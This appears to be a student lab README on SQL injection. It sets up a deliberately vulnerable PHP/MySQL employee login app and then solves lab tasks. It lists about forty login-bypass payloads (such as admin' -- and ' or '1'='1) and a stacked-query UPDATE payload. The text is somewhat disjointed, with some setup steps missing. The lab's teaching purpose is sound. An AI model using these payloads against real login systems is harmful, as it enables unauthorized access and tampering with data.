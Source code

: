 # sqlinjections

You must have following programs/packages in order to run this project.
Apache: 2.4.46 and above
PHP: 7.2.33 and above
MariaDB: 10.4.14 and above
phpMyAdmin: 5.0.2 and above

Note: the XAMPP server include all above mentioned technologies. 
https://www.apachefriends.org/download.html.

Simple Employee Login Development Approach
A simple php and MySQL based web application is developed which has 
registration, login, dashboard and logout. The authentication is very common in 
modern web application. 
It is a security mechanism that is used to restrict unauthorized access to member�only areas and tools on a site.


Step 1: Creating the database table
CREATE TABLE `users` (
 `id` int(6) unsigned NOT NULL,
 `name` varchar(50) NOT NULL,
 `username` varchar(30) NOT NULL,
 `password` varchar(30) DEFAULT NULL,
 `salary` int(9) DEFAULT NULL,
 `age` int(3) DEFAULT NULL,
 `phone` varchar(15) DEFAULT NULL, 
 PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=6 DEFAULT CHARSET=latin1;


Step 2: Creating the connect.inc.php script
After creating the table, we need create a PHP script in order to connect to the 
MySQL database server.
Let's create a file named " connect.inc.php " and put the following code inside it.
<?php
$mysql_host='localhost';
$mysql_user='root';
$mysql_pass='';
$mysql_db='sql_injection';
$con=mysqli_connect($mysql_host,$mysql_user,$mysql_pass,$mysql_db);
if(! $con )
{
die('<h3>* Could not connect to database right now.Please try again 
later.</h3>');
}
?>

Note: Replace the credentials according to your MySQL server setting before testing 
this code, for example, replace the database name 'sql_injection' with your own 
database name, replace username 'root' with your own database username, specify 
database password if there's any.


Step 3: Creating the registration module
Let's create another PHP file "register.php" and put the following example code in 
it. This example code will create a web form that allows user to register themselves.
This script will also generate errors if a user tries to submit the form without entering 
any value, or if username entered by the user is already taken by another user.

Step 5: Creating the welcome or home module
Here's the code of our "welcome.php" file, where user is redirected after successful 
login. 

Step 6: Creating the logout script
Now, let's create a "logout.php" file. When the user clicks on the log out or sign out 
$con, the script inside this file destroys the session and redirect the user back to the 
login page.
<?php
/* Initialize the session */
session_start();
/* Unset all of the session variables */
$_SESSION = array();
/* Destroy the session */
session_destroy();
/* Redirect to login page */

header("location: login.php");
exit;
?>
Employees can view and update their personal information in the database through 
this web application. 
There are mainly two roles in this web application: 
Administrator is a privilege role and can manage each individual employees’ profile 
information;
Employee is a normal role and can view or update his/her own profile information. 
All employee information is described in the following table.
The login page asks users to provide a user name and a password. The web 
application authenticate users based on these two pieces of data, so only employees 
who know their passwords are allowed to log in.
For these task we did a login session for Admin and other users where the 
Administrator update and deletes all the user details of the simple Employee 
management system.

Task 1
Your first task is to log into the web application as the administrator from the login 
page using SQL injection, so you can see the information of all the employees. We 
assume that you know the administrator’s account name which is admin, but you 
do not the password.
You need to decide what to type in the Username and Password fields to succeed 
in the attack.

Solution for Task1
Sql Injection Execution Approach
SQL injections are one of the most common vulnerabilities found in web applications nowadays. 
I will explain what a SQL injection attack is and take a look at an example of a 
simple vulnerable PHP web application accessing a MySQL database. After that, 
we will look at several methods to prevent this attack, fixing the problem.
As we have already set up our php simple web application now we will try to 
attach on the developed web application.
sually username and password is required to access dashboard (welcome.php) but 
we will enter following code in username text field and any password you can 
enter which will not validated while login.

I use the username which is I know it, and a password that are sql injection 
mechanism because of I didn’t know it. In the above figure the username Admin 
and password is the injecting code 'or'1'='1 and logged in to the simple employee 
management system and also we use Admin’# and any text what you want to inter 
into the password field to logged in to these system.
All the users that are registered into these simple Employee management system 
are injecting these sql injection on username’# and any text password or username 
and 'or'1'='1, and all the injected code like
‘or’1’=’1--
‘or’1’=’1#
‘or’1’=’1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*


Task 2
Append a new SQL statement and modify the database using the same 
vulnerability in the login page. 
Use the SQL injection attack to turn one SQL statement into two, with the second 
one being the update or delete statement. In SQL, semicolon (;) is used to separate 
two SQL statements. Describe how you can use the login page to get the server run 
two SQL statements.
Try the attack to delete a record from the database, and describe your observation.
You need to submit a detailed lab report, with screenshots, to describe what you 
have done and what you have observed. 
And also list the code followed by explanation. Simply attaching code without any 
explanation will not receive points.


Solution for Task2
In task 2, we have to be update, delete using two sql statements separating by 
semicolons are the following.
Updating the database by using login sql injection of two statements 
separating by semicolon which means by using these query:-
';UPDATE users SET name='Libassie Nigus' WHERE ID=75# on the 
username and you write any password as you want. 
